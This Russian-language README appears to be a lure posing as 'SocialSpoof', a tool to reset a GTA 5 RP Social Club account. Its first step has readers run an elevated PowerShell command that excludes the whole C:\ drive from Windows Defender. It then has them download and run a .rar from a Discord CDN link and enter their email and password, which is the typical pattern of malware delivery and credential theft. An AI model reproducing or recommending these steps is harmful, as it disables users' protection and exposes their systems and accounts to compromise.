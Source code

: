 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP

## 📖 Описание
В этой статье я расскажу вам, как это сделать. 👇

## 🔧 Установка

### 🛠️ Шаг 1: Сделайте расширение системных файлов Rage Mp
<details>
<summary style="color: blue; font-weight: bold;">Подробные инструкции</summary>

1. Нажмите Win+R и введите команду:
    ```powershell
    powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"
    ```
2. Выполните команду.

</details>

### 📥 Шаг 2: Загрузите SocialSpoof
Как только выполнено расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar).

### 📂 Шаг 3: Распакуйте архив
Распакуйте архив на рабочем столе и запустите.

### 🚀 Шаг 4: Запустите софт
Запустите софт, и заходите в игру.

### ✏️ Шаг 5: Введите данные
Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎

